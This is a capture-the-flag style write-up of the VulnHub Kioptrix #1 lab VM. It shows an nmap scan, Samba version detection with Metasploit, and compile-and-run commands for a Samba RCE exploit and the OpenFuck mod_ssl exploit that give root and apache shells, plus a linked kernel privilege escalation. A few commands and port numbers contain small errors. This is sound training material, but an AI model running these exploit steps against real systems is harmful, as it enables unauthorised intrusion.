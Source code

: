 ```yaml
---
title: "VulnHub - Kioptrix #1"
author: Nasrallah
description: ""
date: 2022-12-23 00:00:00 +0000
categories: [VulnHub]
tags: [vulnhub, linux, easy, ssl, smb, samba]
img_path: /assets/img/vulnhub/kioptrix1
---
```



---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Kioptrix level 1](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/) from [VulnHub](https://www.vulnhub.com/).

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 -p- {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

- -p-: Scan all ports.

```terminal
Nmap scan report for 192.168.56.4
Host is up (0.0026s latency).
Not shown: 65529 closed tcp ports (reset)
PORT      STATE SERVICE     VERSION 
22/tcp    open  ssh         OpenSSH 2.9p2 (protocol 1.99)
| ssh-hostkey:                                                                 
|   1024 b8:74:6c:db:fd:8b:e6:66:e9:2a:2b:df:5e:6f:64:86 (RSA1)
|   1024 8f:8e:5b:81:ed:21:ab:c1:80:e1:57:a3:3c:85:c4:71 (DSA)
|_  1024 ed:4e:a9:4a:06:14:ff:15:14:ce:da:3a:80:db:e2:81 (RSA)
|_sshv1: Server supports SSHv1
80/tcp    open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
| http-methods:     
|_  Potentially risky methods: TRACE
111/tcp   open  rpcbind     2 (RPC #100000)    
| rpcinfo:                                                                                                                                                    
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind                                                                                                                    
|   100000  2            111/udp   rpcbind                  
|   100024  1          32768/tcp   status
|_  100024  1          32768/udp   status      
139/tcp   open  netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp   open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-09-26T09:32:06
|_Not valid after:  2010-09-26T09:32:06
|_ssl-date: 2022-11-30T12:28:51+00:00; +4h59m59s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|_    SSL2_DES_64_CBC_WITH_MD5
|_http-title: 400 Bad Request
32768/tcp open  status      1 (RPC #100024)
MAC Address: 08:00:27:AF:BE:C3 (Oracle VirtualBox virtual NIC)

Host script results:
|_clock-skew: 4h59m58s
|_smb2-time: Protocol negotiation failed (SMB2)
|_nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
```

We found 6 open ports:

 - 22/OpenSSH 2.9p2

 - 80/Apache/1.3.20

 - 139/netbios-ssn Samba smbd

 - 443/mod_ssl/2.8.4

## SMB

We found out from the scan that samba is running on port 139 but nmap couldn't detect a version, for that we're going to use the `metasploit` module `auxiliary/scanner/smb/smb_version`.

```bash
[msf](Jobs:0 Agents:0) >> use auxiliary/scanner/smb/smb_version
[msf](Jobs:0 Agents:0) auxiliary(scanner/smb/smb_version) >> set rhosts 192.168.56.4
rhosts => 192.168.56.4
[msf](Jobs:0 Agents:0) auxiliary(scanner/smb/smb_version) >> run

[*] 192.168.56.4:139      - SMB Detected (versions:) (preferred dialect:) (signatures:optional)
[*] 192.168.56.4:139      -   Host could not be identified: Unix (Samba 2.2.1a)
[*] 192.168.56.4:         - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
[msf](Jobs:0 Agents:0) auxiliary(scanner/smb/smb_version) >>
```

The version of the running Samba is 2.2.1a.

# **Foothold**

## Samba

Searching for vulnerabilities in Samba, i found this remote code execution [exploit](https://www.exploit-db.com/exploits/10)

![](1.png)

Let's download the exploit, compile and run it.

```bash
$ gcc exploit.c -o exploit

$ ./exploit -v 192.168.56.4 -b 0
```

![](2.png)

Great! We got a shell as root.

## SSL

On port 433, we have mod_ssl/2.8.4 which is also vulnerable to a remote code execution. We can find a working exploit [here](https://github.com/heltonWernik/OpenLuck).

After downloading the exploit, we need to download the ssl-dev library.

```bash
sudo apt install ssl-dev library
```

Now we compile the exploit with the following command:

```bash
gcc -o OpenFuck OpenFuck.c -lcrypto
```

And run the compiled exploit with this command:

```bash
./OpenFuck 0x6b 192.168.56.4 443 -c 40
```

![](3.png)

We got a shell as `apache`, which means it's privilege escalation time.

# **Privilege Escalation**

By running `uname -a`, we find that the version of linux running is `linux 2.4.7-10` and it's vulnerable to Local Privilege Escalation. Here is the [exploit](https://www.exploit-db.com/exploits/3)

Let's upload the exploit to the target, compile it and run it.

![](4.png)



---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

# References
